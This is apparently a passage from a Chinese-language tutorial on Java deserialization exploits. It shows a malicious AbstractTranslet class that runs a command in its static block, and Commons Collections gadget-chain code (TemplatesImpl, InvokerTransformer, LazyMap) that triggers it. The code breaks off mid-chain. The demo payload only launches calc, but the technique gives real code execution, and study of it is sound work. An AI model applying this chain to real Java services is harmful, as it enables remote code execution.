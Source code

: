 所以给要加载的类继承该类就行了

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.IOException;
public class MyClass extends com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet{
    static {
        try {
            Process calc = Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }

    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

通过这个就多了一种代码执行的方法,在ChainedTransformer中通过`transform`调用`newTransformer()`方法从而加载指定类

```java
public static void main(String[] args) throws Exception{
        
        TemplatesImpl templates=new TemplatesImpl();
        Class<? extends TemplatesImpl> templatesClass = templates.getClass();
        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates,"aaa");
        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        byte[] code= Files.readAllBytes(Paths.get("H:\\java\\classTest\\MyClass.class"));
        byte[][] codes={code};
        bytecodes.set(templates,codes);


        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates,new TransformerFactoryImpl());

        /*templates.newTransformer();*/

        Transformer[] transformers= new Transformer[]{
                //ConstantTransformer.transforme如什么对象就返回什么对象,刚好在链式调用里面做开头参数
                new ConstantTransformer(templates),

                new InvokerTransformer("newTransformer",null,null),

        };
        Transformer Chainedtransform = new ChainedTransformer(transformers);

        HashMap<Object,Object> map=new HashMap<Object, Object>() ;


        Map lazyMap = LazyMap.decorate(map, new ConstantTransformer(123));
```